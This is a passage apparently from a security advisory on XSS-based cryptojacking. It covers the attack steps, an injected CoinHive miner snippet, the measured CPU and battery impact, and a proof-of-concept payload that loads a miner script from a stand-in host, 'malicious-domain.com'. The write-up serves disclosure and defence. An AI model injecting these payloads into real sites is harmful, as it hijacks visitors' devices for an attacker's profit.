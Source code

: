 1. **Injection Point Identification**: The attacker identifies vulnerable input fields or parameters that accept and reflect JavaScript.
2. **Payload Delivery**: A cryptomining script is injected, either directly or as a reference to an external resource.
3. **Script Execution**: The victim's browser executes the cryptomining script, allocating CPU resources to mine cryptocurrency.
4. **Profit Generation**: The mined cryptocurrency is credited to the attacker's wallet.

### 3.2 Cryptomining Script Analysis

The following is an example of a cryptomining script that was successfully injected and executed:

```javascript
<script>
    var miner = new CoinHive.Anonymous('ATTACKER_SITE_KEY', {
        throttle: 0.3,
        autoThreads: true
    });
    miner.start();
</script>
```

This script initializes a cryptocurrency miner (in this case, using the CoinHive API, though similar services exist) and begins mining operations immediately. The script is configured to use 70% of available CPU resources (throttle: 0.3) and automatically adjust the number of threads based on the system's capabilities.

### 3.3 Resource Impact

During testing, the following resource impacts were observed when the cryptomining script was active:

- **CPU Usage**: Increased by 60-80% on affected clients
- **Battery Life**: Reduced by approximately 45% on mobile devices
- **System Responsiveness**: Noticeable degradation in browser performance
- **Thermal Issues**: Devices running the cryptominer showed increased heat generation

## 4. Exploitation Proof of Concept

### 4.1 XSS-Based Cryptojacking

The following steps demonstrate how the cryptojacking vulnerability was exploited:

1. **Identify Injection Point**: Located an unsanitized input field in the application's comment section.
2. **Craft Payload**: Created a payload that loads a cryptomining script:
   ```html
   <script src="https://malicious-domain.com/miner.js"></script>
   ```
3. **Deliver Payload**: Submitted the payload through the vulnerable input field.
4. **Verify Execution**: Confirmed script execution by monitoring CPU usage and network connections to the mining pool.

### 4.2 Persistent Cryptojacking
